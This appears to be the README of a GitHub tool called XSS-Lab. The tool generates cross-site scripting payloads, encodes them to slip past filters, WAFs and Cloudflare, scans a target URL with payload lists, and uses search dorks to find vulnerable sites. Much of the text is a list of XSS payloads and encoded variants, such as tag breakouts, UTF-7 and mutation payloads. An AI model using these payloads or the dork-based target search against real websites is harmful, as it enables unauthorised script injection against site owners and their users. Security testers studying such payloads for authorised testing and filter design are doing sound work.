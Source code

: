 <img src="https://raw.githubusercontent.com/0xAbbarhSF/XSS-Lab/main/images%20(4).png">

- 🕊️ [@0xAbbarhSF](https://twitter.com/0xAbbarhSF) <img src="https://img.shields.io/badge/Twitter-1DA1F2?style=for-the-badge&logo=twitter&logoColor=white">


## 📒 Read Me 📒

* This tool creates payload for use in xss injection
* Select default payload tags from parameter or  write your payload
* It makes xss inj. with Xss Scanner parameter
* It finds vulnerable sites url with Xss Dork Finder parameter


##  :cd: Installation  :cd:
### Installation with requirements.txt

```bash
git clone https://github.com/0xAbbarhSF/XSS-Lab
cd XSS-Lab
pip3 install -r requirements.txt
```

## Usage

```bash
python3 payloader.py
```


## 🗃️  Features  🗃️


#### *Basic Payload

Sets default parameter to :```<script>alert(1)</script>```

#### *Div Payload

Sets default parameter to :```<div onpointerover='alert(1)'>MOVE HERE</div```

#### *Img Payload

Sets default parameter to :```<img src=x onerror=alert('1');>```

#### *Body Payload

Sets default parameter to :```<body ontouchstart=alert(1)>```

#### *Svg Payload

Sets default parameter to :```<svg onload=alert('1')>```

#### *Enter Your Payload

Encodes payload writed by user


#### *Payload Generator Parameter

Encodes payload on selected tag

#
```
* |   1.  UPPER CASE---->  <SCRIPT>ALERT(1)</SCRIPT>              
* |   2.  UPPER AND LOWER CASE----> <ScRiPt>aleRt(1)</ScRiPt>   
* |   3.  URL ENCODE ----->   %3Cscript%3Ealert%281%29%3C%2Fscript%3E           
* |   4.  HTML ENTITY ENCODE----->  &lt;script&gt;alert(1)&lt;/script&gt; 
* |   5.  SPLIT PAYLOAD ----->  <scri</script>pt>>alert(1)</scri</script>pt>>       
* |   6.  HEX ENCODE ----->  3c7363726970743e616c6572742831293c2f7363726970743e       
* |   7.  UTF-16 ENCODE -----> Encode payload to utf-16 format.   
* |   8.  UTF-32 ENCODE----->  Encode payload to utf-32 format.          
* |   9.  DELETE TAG -----> ";alert('XSS');//            
* |  10.  UNICODE ENCODE----->    %uff1cscript%uff1ealert(1)%uff1c/script%uff1e         
* |  11.  US-ASCII ENCODE ----->  ¼script¾alert(1)¼/script¾      
* |  12.  BASE64 ENCODE ----->   PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==          
* |  13.  UTF-7 ENCODE ----->   +ADw-script+AD4-alert(1)+ADw-/script+AD4-           
* |  14.  PARENTHESIS BYPASS ----->  <script>alert`1`</script>   
* |  15.  UTF-8 ENCODE ----->  %C0%BCscript%C0%BEalert%CA%B91)%C0%BC/script%C0%BE          
* |  16.  TAG BLOCK BREAKOUT-----> "><script>alert(1)</script>
* |  17.  SCRIPT BREAKOUT----->  </script><script>alert(1)</script>
* |  18.  FILE UPLOAD PAYLOAD-----> "><script>alert(1)</script>.gif
* |  19.  INSIDE COMMENTS BYPASS-----> <!--><script>alert(1)</script>-->
* |  20.  MUTATION PAYLOAD-----> <noscript><p title="</noscript><script>alert(1)</script>">
* |  21.  MALFORMED IMG-----> <IMG """><script>alert(1)</script>">
* |  22.  SPACE BYPASS-----> <img^Lsrc=x^Lonerror=alert('1');>
* |  23.  DOWNLEVEL-HIDDEN BLOCK-----> <!--[if gte IE 4]><script>alert(1)</script><![endif]-->
* |  24.  WAF BYPASS PAYLOADS-----> Show Waf Bypass Payload List
* |  25.  CLOUDFLARE BYPASS PAYLOADS-----> Show Cloudflare Bypass Payload List
* |  26.  POLYGLOT PAYLOADS-----> Show Polyglot Bypass Payload List
* |  27.  ALERT PAYLOADS-----> Show Alert Payload List
* |  28.  ALL CREATE PAYLOAD-----> Show Create All Payloads
* |  29.  GO BACK MAIN MENU
* |  30.  EXIT
```

#### *Xss Scanner

Initially you'll need to enter url of target
Please enter the url like this example==>e.g target -----> http://target.com/index.php?name=
Selected for scanning payload list

* BASIC PAYLOAD LIST   ==> Payload list consisting of script tag
* DIV PAYLOAD LIST     ==> Payload list consisting of div tag
* IMG PAYLOAD LIST     ==> Payload list consisting of img tag
* BODY PAYLOAD LIST    ==> Payload list consisting of body tag
* SVG PAYLOAD LIST     ==> Payload list consisting of svg tag
* MIXED PAYLOAD LIST   ==> Payload list consisting of all tag
* ENTER FILE PATH      ==> Payload list determined by the user ,Please enter the url like this example..!
(e.g. path -----> /usr/share/wordlists/wfuzz/Injections/XSS.txt)

Results will be added in "vulnpayload.txt" after scanning.


#### *Xss Dork Finder

First enter the dork for searching:
   e.g---->inurl:"search.php?q="
Results will be saved in "dork.txt" after scanning.

## Known Issues

### Fixed:
- Unicode errors

- Module errors

**Important:**

If you want to use tool for python3 installed on Windows download below link:

https://github.com/0xAbbarhSF/XSS-Lab


## Bugs and enhancements

For bug reports or enhancements, please open an [issue](https://github.com/capture0x/XSS-LOADER/issues) here.



**Copyright 2020**
